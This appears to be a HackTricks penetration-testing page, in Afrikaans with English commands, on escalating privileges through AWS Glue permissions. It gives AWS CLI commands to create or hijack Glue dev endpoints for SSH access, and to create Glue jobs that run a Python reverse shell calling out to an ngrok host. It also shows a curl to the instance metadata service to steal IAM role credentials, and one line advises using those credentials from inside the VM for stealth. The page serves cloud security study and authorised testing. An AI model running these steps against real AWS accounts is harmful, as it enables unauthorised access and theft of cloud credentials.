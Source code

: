 # AWS - Glue Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemmings kan **'n nuwe AWS Glue development endpoint opstel**, **'n bestaande service role wat deur Glue aangeneem kan word, aan hierdie endpoint toewys** met spesifieke permissies.

Na die opstelling kan die **aanvaller per SSH op die endpoint-instansie inlog**, en die IAM-inlogbewyse van die toegewezen rol steel:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Vir sluipdoeleindes word dit aanbeveel om die IAM credentials van binne die Glue virtuele masjien te gebruik.

**Potensiële impak:** Privesc na die glue service role wat gespesifiseer is.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Gebruikers met hierdie toestemming kan **wysig 'n bestaande Glue development** endpoint se SSH-sleutel, **waardeur SSH-toegang daartoe moontlik word**. Dit stel die aanvaller in staat om opdragte uit te voer met die voorregte van die rol wat aan die endpoint gekoppel is:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Potential Impact:** Privesc na die gebruikte Glue service role.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Gebruikers met **`iam:PassRole`** gekombineer met óf **`glue:CreateJob` of `glue:UpdateJob`**, en óf **`glue:StartJobRun` of `glue:CreateTrigger`** kan **'n AWS Glue-job skep of bywerk**, enige **Glue service account** daaraan heg en die job se uitvoering begin. Die job kan enige Python-kode uitvoer, wat misbruik kan word om 'n reverse shell te vestig. Hierdie reverse shell kan dan gebruik word om die **IAM credential**s van die rol wat aan die Glue-job gekoppel is, te exfiltrate, wat kan lei tot potensiële ongemagtigde toegang of optrede gebaseer op die permissies van daardie rol:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Potensiële impak:** Privesc na die gespesifiseerde glue service role.

### `glue:UpdateJob`

Slegs met die update-permissie kan 'n aanvaller die IAM Credentials van die reeds aangehegte role steel.

**Potensiële impak:** Privesc na die aangehegte glue service role.

## Verwysings

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../../banners/hacktricks-training.md}}
